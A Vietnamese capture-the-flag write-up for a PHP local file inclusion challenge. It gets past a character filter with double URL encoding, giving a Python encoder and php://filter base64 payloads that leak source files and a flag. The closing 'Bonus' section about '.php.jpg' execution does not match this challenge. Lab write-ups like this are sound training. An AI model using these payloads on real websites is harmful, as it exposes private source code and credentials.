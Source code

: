 # Local File Inclusion - Double encoding

**30 Points**  

Include can be dangerous.

**Statement**
Find the validation password in the source files of the website.

## Analysis:

Xác định source (nơi ta có thể chèn input) là tại tham số `page` của URL. Thử payload `../` thì bị báo **"Attack detected."**. Thử chuyển qua URL-encoding thành `%2e` (.) và `%2f` (/) cũng bị detected nốt. Bộ lọc bên server là:

Filter: `.` `/` `%2f` `%2e`

Tên bài là "Double encoding" cho ta gợi ý nên bypass filter bằng cách _Double-encode_ payload. Ví dụ như hồi nãy bị filter `%2e` thì mình sẽ Url-encode dấu `%` thành `%25` (%). Vậy ta có `%252e` sẽ là dấu `.`. Thử payload:

```
%252e
```

![image](https://user-images.githubusercontent.com/48288606/163758956-25024a41-a5d4-414d-ade6-ffd390e827ab.png)

Vậy là ta đã chèn payload vào thành công, chỉ vướng lỗi logic (ta sẽ xác định sau). Mình viết một snippet python nho nhỏ để tạo double-encoding:

```python
string = "../" # This string would be double-encoded.
payload = ""
filter = ['.','/']

for c in string:
    if c in filter:
        payload += "%25" + hex(ord(c))[2:]
    else:
        payload += c

print(payload)
```

Bây giờ mình sẽ thử payload `../` và phân tích. Double-encoded payload: `%252e%252e%252f`. 

![image](https://user-images.githubusercontent.com/48288606/163759491-500a5786-9ff0-4fc7-b2af-18c18f22e5f9.png)

Bên server dùng hàm [include()](https://www.php.net/manual/en/function.include.php) để lấy file, hàm này được xem là một hàm rủi ro nếu không có thao tác xử lý dữ liệu truyền vào như parameter `page`. Ngoài ra, đường dẫn mà chúng ta yêu cầu tài nguyên `../.inc.php` bị ra khỏi vùng cho phép `/tmp`. Đồng thời ta nhận ra chuỗi của chúng ta được concat với `.inc.php`. Vậy bình thường ta để giá trị `contact` thì file được truy vấn sẽ là `contact.inc.php`

Với việc không liệt kê file trong kết quả trả về, ta không thể dò tìm file ta mong muốn. Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Wrappers là một code bổ sung cho một stream để xử lý các giao thức / mã hóa cụ thể. Ví dụ: wrappers `http` biết cách dịch một URL thành một **HTTP** request cho một file trên máy chủ từ xa. Khi làm việc với wrapper vì luồng stream được xử lý và được read ra nên ouput sẽ là nội dung của một file nào đó (do mình tùy chọn). Tham khảo [thêm](https://www.php.net/manual/en/intro.stream.php#:~:text=Introduction%20%C2%B6&text=A%20wrapper%20is%20additional%20code,file%20on%20a%20remote%20server.)

Áp dụng kỹ thuật này vào payload. Sử dụng `php://filter/resource=contact` với trang **contact**. Payload: 

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=contact
```

Output mã nguồn của file của chúng sẽ bị mã hóa base64 vì chúng ta chọn [Conversion Filters](https://www.php.net/manual/en/filters.convert.php) là `convert.base64-encode` (tương đương với đưa toàn bộ stream content qua hàm **base64_encode()**) 

![image](https://user-images.githubusercontent.com/48288606/163790457-3b104c42-b13c-4c49-9e2f-2a2361f9f33d.png)

Decode base64 bằng lệnh `base64 -d` (Linux):

```
echo "<string-to-be-decoded>" | base64 -d 
```

Chúng ta có source code PHP:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Contact</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact" class="active">Contact</a>
    </nav>
    <div id="main">
      <h2>Contact</h2>
      <p>If you got to talk to me, don't hesitate to send me an email <a href="mailto:<?= $conf['contact']['mail'] ?>">here</a>.</p>
      <p>You can also phone me on this number : <?= $conf['contact']['phone'] ?></p>
    </div>
  </body>
</html>
```

Vậy chúng ta chỉ có thể đọc file đã biết tên và đường dẫn cụ thể. Theo codebase ở trên thì ta thấy có file `conf.inc.php`. Vào đây check nội dung file, dùng `php://filter/convert.base64-encode/resource=conf`. Payload:

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=conf
```

![image](https://user-images.githubusercontent.com/48288606/163792362-b86c7732-89f5-46e8-a489-a056fe9346ed.png)

Decode tương tự bằng `base64` command:

```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta có được flag trong source code.

## Explanation - How does it work? (Bonus):

Hồi thời điểm mình làm mình chưa hiểu tại sao bên server lại thực thi được code PHP với double-extension file `.php.jpg`. Sau khi search một hồi thì mình đã tìm ra câu trả lời, sau đây là giải thích:

Nguồn: https://stackoverflow.com/questions/8025236/is-it-possible-to-execute-php-with-extension-file-php-jpg

Đại khái, trong _PHP trong khoảng phiên bản dưới 6.0_, trong file cấu hình `.htacess` chúng ta có thể cho phép bất kỳ một file định dạng nào `html`, `htm`, `jpg`, ... thực thi code PHP bên trong nó, với từ khóa `AddType` ta có thể làm được việc này. Bên server của challenge có thể được cấu hình file `.htaccess` với cú pháp bên dưới như sau:

`AddType application/x-httpd-php .jpg`

Hoặc:

`AddType application/x-httpd-php .php.jpg`

*Có lẽ server cố tình làm vậy để tạo challenge thôi :>, hiếm ai để một file định dạng khác mà có thể thực thi với PHP code format. Chal này chỉ xuất hiện ở phiên bản cũ.

Flag: **Th1sIsTh3Fl4g!**
